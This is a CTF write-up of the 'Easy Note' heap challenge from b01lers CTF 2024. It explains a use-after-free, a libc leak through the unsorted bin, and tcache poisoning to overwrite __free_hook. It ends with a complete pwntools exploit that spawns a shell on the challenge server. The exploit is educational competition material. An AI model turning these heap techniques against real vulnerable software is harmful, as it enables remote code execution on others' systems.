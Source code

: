 ```yaml
---
title : "Easy Note - B01lers CTF 2024"
date : 2024-06-30
slug : b01lers-ctf-2024
aliases:
    - b01lers-ctf-2024
description: My (assisted) solve of "easy note" from b01lers CTF 2024
summary: Baby's first heap pwn! Understanding "Use after Free" and how the heap is laid out
tags:
    - b01lers-ctf
    - pwn
    - binary-exploitation
    - heap
---
```

## Background
Easy Note was a pwn challenge from b01lers CTF 2024. We're given a chal executable with the full set of glibc mitigations enabled. I solved this challenge in collaboration with Benson Liu and with a lot of guidance from Enzo (both members of Psi Beta Rho @ UCLA).
![image](https://hackmd.io/_uploads/BJsJj9yw0.png)
Upon running the executable, we are able to allocate a note of arbitrary size to the heap, free a note, view a note, edit a note, resize a note, or exit the program.
This challenge was built to be used with glibc version 2.27.

## Reverse Engineering
### Alloc
![image](https://hackmd.io/_uploads/Byw5T9yvR.png)
Chunk allocation is fairly simple. First, function `get_chunk_id()` (renamed by me) is called to ask the user for a location to allocate the note (and to ensure the location is valid and in bounds).  The size of the note is then asked for and returned with `get_chunk_size()` (using `sscanf`) and it is allocated using `malloc()`.
Finally, the allocated chunk is stored in a global array (whose base offset is located at `&dat_4040`).
### Free
![image](https://hackmd.io/_uploads/r1gcRcJPR.png)
The index of the desired chunk is checked for validity (using `get_chunk_id()`), then freed. Note - this does not prevent a double free. Futhermore, it does not clear the contents of the note before freeing the chunk.
### View
![image](https://hackmd.io/_uploads/r1BJJjkP0.png)
The index of the desired chunk is checked for validity, then the contents are displayed to the user using `puts`.
### Edit
![image](https://hackmd.io/_uploads/BJO7JiyvR.png)
The index of the desired chunk is checked for validity (as is the size of the desired edit). The current note is then edited with the provided user input. Note that there is no check in place to ensure that the chunk can handle an edit of the provided size.
### Resize
![image](https://hackmd.io/_uploads/SkpOki1PC.png)
The index of the desired chunk is checked for validity. Then, realloc is called on it using the size provided by the user.
## Issues and Exploit
The main vulnerability that we are exploiting here is rooted in the "free" function not clearing the data of a chunk before freeing it, leading to a "Use after Free" (UaF).
Given that this challenge was written using glibc 2.27, we are able to take advantage of the still-present `__free_hook` (containing a pointer to the function that free uses whenever it is called).  If we're able to leak the address of libc and overwrite `__free_hook` with `/bin/sh`, we'll be able to pop a shell and cat the flag.

### Exploit Background
#### Bins
When heap chunks are freed, the heap manager must keep track of the freed chunks internally so they can be reused by malloc during allocation requests. There are 5 types of "bins" the heap manager can store a freed chunk in. These are the small bin, large bin, fast bin, unsorted bin, and tcache bin.  Most relevantly to this challenge, the unsorted bin holds free chunks of any size (which are linked together with forward and backward pointers). Chunks are linked into the unsorted bin if they are either outside of fastbin range (size >= 0x90) or outside of tcache range (if tcache is present, >= 0x420).
If we can create and free our top chunk such that it ends up in unsorted bin, it will point into libc.  We can then calculate the libc base and write to `__free_hook`
#### Chunk Consolidation
Chunk consolidation is the process of merging two or more free chunks on the heap into a larger free chunk to avoid fragmentation. This can become an issue when trying to take advantage of a UaF - thus, we can create "barrier" chunks (small chunks that are not freed) in between relevant chunks we are using to prevent this process.
### Final Exploit
The final path of our exploit is as such:
1. Allocate a chunk of size 0x420 or greater (to ensure it enters the unsorted bin).
2. Free it
3. Read the freed pointer from unsorted bin to get a pointer to libc
4. Calculate the libc base
5. Use libc base to write to `__free_hook`, `system`.
6. Write `/bin/sh` to some chunl
7. Call `free` with pointer to the chunk containing `bin/sh` to get a shell
8. Profit
### Solve Script
```python=
#!/usr/bin/env python3
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

exe = ELF("./chal_patched")
ld = ELF("./ld-2.27.so")
libc = ELF("./libc.so.6")

REMOTE = True

r = remote('gold.b01le.rs', 4001) if REMOTE else process([exe.path])
# gdb.attach(r)

PROMPT = b"-----Resize----" if REMOTE else b">"

def alloc(idx, size):
    r.sendlineafter(PROMPT, b"1")
    r.sendlineafter(b"Where? ", str(idx).encode())
    r.sendlineafter(b"size? ", str(size).encode())

def free(idx):
    r.sendlineafter(PROMPT, b"2")
    r.sendlineafter(b"Where? ", str(idx).encode())

def view(idx):
    r.sendlineafter(PROMPT, b"3")
    r.sendlineafter(b"Where? ", str(idx).encode())
    return r.recvline().strip()

def edit(idx, data):
    r.sendlineafter(PROMPT, b"4")
    r.sendlineafter(b"Where? ", str(idx).encode())
    r.sendafter(b"size? ", str(len(data) + 2).encode())
    r.send(data)

def exit(r):
    r.sendlineafter(PROMPT, b"5")

def resize(idx, size):
    r.sendlineafter(PROMPT, b"6")
    r.sendlineafter(b"Where? ", str(idx).encode())
    r.sendlineafter(b"size? ", str(size).encode())


alloc(1, 0x420) # 0x420 is max tcache size
alloc(2, 0x18) # barrier to prevent combining with top chunk 
free(1)
libc.address = u64(view(1).ljust(8, b"\x00")) - 0x3afca0
log.info(hex(libc.address))

alloc(3, 0x18)
alloc(4, 0x18)
alloc(5, 0x18) # barrier

free(3)
free(4) # has forward pointer to 3

edit(4, b"\x00" + p64(libc.sym.__free_hook))

alloc(6, 0x18)
alloc(7, 0x18)

edit(7, b"\x00" + p64(libc.sym.system))

alloc(8, 0x18)
edit(8, b"\x00/bin/sh\x00")

free(8)

r.interactive()
```

